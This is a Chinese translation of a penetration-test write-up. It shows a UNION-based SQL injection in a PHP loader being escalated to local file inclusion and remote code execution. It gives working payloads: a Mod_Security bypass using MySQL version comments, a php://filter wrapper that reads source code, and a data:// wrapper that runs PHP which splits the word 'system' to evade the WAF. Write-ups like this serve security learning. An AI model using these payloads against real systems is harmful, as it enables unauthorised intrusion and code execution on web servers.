







# SQL 注入到 RCE

> 原文：<https://infosecwriteups.com/sql-injection-to-lfi-to-rce-536bed29a862?source=collection_archive---------0----------------------->



在接下来的几行中，我将展示一个案例，几天前我在[**开放数据安全**](https://opendatasecurity.io) 为我们的一个客户进行渗透测试时，我感兴趣的是我需要如何连接几个因素来获得 RCE。

由于显而易见的原因，一些客户数据将被匿名化。

在对目录进行模糊处理时，我发现了一个文件夹，里面有一个 php 文件:

```
https://customer.com/php/load.php
```

当我测试 url 时，我得到一个 php 警告:



正如我们所见，该应用程序正试图包括一个空文件名与. php 扩展名。接下来我想到的是，也许我可以在 GET 参数中控制文件名，所以我决定强制使用一些参数。在使用任何脚本之前，我想我应该测试一下普通的老学校网站模块参数，比如" *sec，section，mod，mod，file，page 等等。令我惊讶的是，参数“*page”*抛出了一个不同的错误，一条 MySQL 警告消息:*



我们可以看到，include 函数继续在同一点使用空文件名，但我们可以看到我们得到了一个 MySQL 错误，然后从这里我尝试猜测应用程序从数据库中获得了所需的文件名，从这里我尝试了通常的 SQL 输入:

```
https://customer.com/php/load.php?page=**’ or ‘’=’**
```

并且我得到了包含警告消息，但是这次文件名不是空的，是***【analytics.php*】**，第一个路径字符串有一个点，网站 css 样式没有加载(现在链接不是粉色的)



嗯，那时我确信 include()从数据库中获取部分路径，我们需要尝试一个**联合类型 SQL 注入**，这样我们就可以控制路径并尝试本地文件包含。

在我尝试的第一次注入中，我得到了 406 响应，网站启用了 **Mod_Security apache 模块**，不幸的是它检测到了我的注入，但正如一些人所知，过时的Mod_Security 版本**可以通过注入字符串中的 MySQL 注释绕过**。我试了一下，用一个 9 列注入式查询成功了:

```
https://customer.com/php/load.php?page=’ **/*!50000union*/** select 1,2,3,4,5,6,7,8,9-- -
```



在整个 web 应用程序中，我没有找到任何其他地方，上传表单允许上传图像或任何带有 php 代码的文件扩展名，我可以随意包含以利用当前的本地文件包含，但正如您在前面的图像中所看到的，我观察到我可以操纵路径的开头，这对我来说很好，因为我知道我可以尝试使用一些 **php 包装器**。

首先，我使用**PHP://filter/convert . base64-encode/resource = "**包装器来读取 index.php 文件:

```
https://customer.com/php/load.php?page=’ /*!50000union*/ select 1,2,3,4,5,’**../index**’,7,8,’**php://filter/convert.base64-encode/resource=.**’ -- -
```

瞧，我们得到了一串 base64 编码的 index.php 源代码



啊，此时我想要的是得到一个 RCE，所以我首先尝试了 input:// wrapper，但是没有成功，因为应用程序将输入与路径的其余部分连接起来，并且由于强大的 Mod_Security 模块，使用 nullbyte %00 是不可能的。然后我决定**尝试用 data:// wrapper** 发送一些 php 代码，希望能够执行:

```
https://customer.com/php/load.php?page=' /*!50000union*/ select 1,2,3,4,5,6,7,8,’data://text/plain,**<?php echo system(“uname -a”);?>**’-- -
```

我又一次收到了 Mod_Security 406 响应，阻止了我。想了一些，我认为问题出在“系统”字符串上，于是我回去编写了一些 php 代码行:

```
<?php
$a=”sy”;
$b=”stem”;
$c=$a.$b;
$c(“uname -a”);
?>
```

最后有效载荷是:

```
https://customer.com/php/load.php?page=' /*!50000union*/ select 1,2,3,4,5,6,7,8,’data://text/plain,**<?php $a=”sy”;$b=”stem”;$c=$a.$b; $c(“uname -a”);?>**’ -- -
```

我们的命令结果是:



**后来终于得到了 RCE！！！^_^**


*关注* [*Infosec 报道*](https://medium.com/bugbountywriteup) *获取更多此类精彩报道。*

[](https://medium.com/bugbountywriteup) [## 信息安全报道

### 收集了世界上最好的黑客的文章，主题从 bug 奖金和 CTF 到 vulnhub…

medium.com](https://medium.com/bugbountywriteup)